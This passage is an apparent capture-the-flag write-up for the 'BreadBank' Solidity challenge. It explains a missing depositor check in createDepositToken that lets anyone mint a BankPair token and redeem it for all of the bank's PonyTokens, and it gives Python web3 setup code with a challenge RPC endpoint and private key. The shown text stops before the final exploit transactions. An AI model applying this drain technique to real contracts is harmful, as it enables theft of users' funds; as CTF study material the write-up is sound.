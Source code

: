 The `PonyToken` and `BankPair` each use `ERC20` to define fungible tokens. `BreadBank` issues `BankPairs` to users who deposit `ERC20` tokens into the BreadBank. Users can later redeem their `BankPair` token for the underlying `ERC20` token. There is some logic for a rewards system, but we were unable to understand its purpose. The challenge is to steal all the `PonyToken`'s from the `BreadBank`. 

The vulnerability is related to the strange logic for depositing tokens into the `BreadBank`. It checks if enough tokens have been deposited into the bank and creates a `BankPair` token if so. However, it does not check if the tokens were deposited by the caller. (In fact, it seems like this design would not allow for the `BreadBank` to be able to tell who deposited the tokens at all!) Therefore, we call `createDepositToken` to create another `BankPair` with the amount of `PonyToken`'s in the `BreadBank`. Then, we can redeem the `BankPair` to give us all of the tokens.

First, we import libraries and set up the provider and account:

```python
from web3 import Web3, HTTPProvider
import solcx
from eth_utils.address import to_checksum_address

rpc = 'http://challs.htsp.ro:9005/f2e8bf3f-6f6a-4861-8081-0bde5ebff37f'
setup_contract = '0x7c5F86df3E4D5d610dDa06b87cCA84531c70B305'
priv_key = '0x6a187a46a578bf15086b5a7421a72408b448c535333b863fddccb2f1210a2132'

w3 = Web3(HTTPProvider(rpc))

account = w3.eth.account.from_key(priv_key)
```

Then, we access slots 0 and 1 of the `Setup` contract to be able to interact with the `BreadBank` contract and `PonyToken` contracts respectively.

```python
bank_contract_addr = to_checksum_address(w3.eth.get_storage_at(setup_contract, 0)[-20:])
pony_contract_addr = to_checksum_address(w3.eth.get_storage_at(setup_contract, 1)[-20:])

compiled_bank = solcx.compile_files(
    ["BreadBank.sol"],
    output_values=["abi", "bin"]
)['BreadBank.sol:BreadBank']

compiled_pony = solcx.compile_files(
    ["PonyToken.sol"],
    output_values=["abi", "bin"]
)['PonyToken.sol:PonyToken']

compiled_bank_pair = solcx.compile_files(
    ["BankPairERC20.sol"],
    output_values=["abi", "bin"]
)['BankPairERC20.sol:BankPairERC20']

Bank = w3.eth.contract(address=bank_contract_addr, abi=compiled_bank['abi'])
PonyToken = w3.eth.contract(address=pony_contract_addr, abi=compiled_pony['abi'])
```

We get the balance of `PonyToken`'s in the `BreadBank`, and create a new deposit token with that amount. To get the address of the `BankToken` we look at the logs of the transaction receipt:
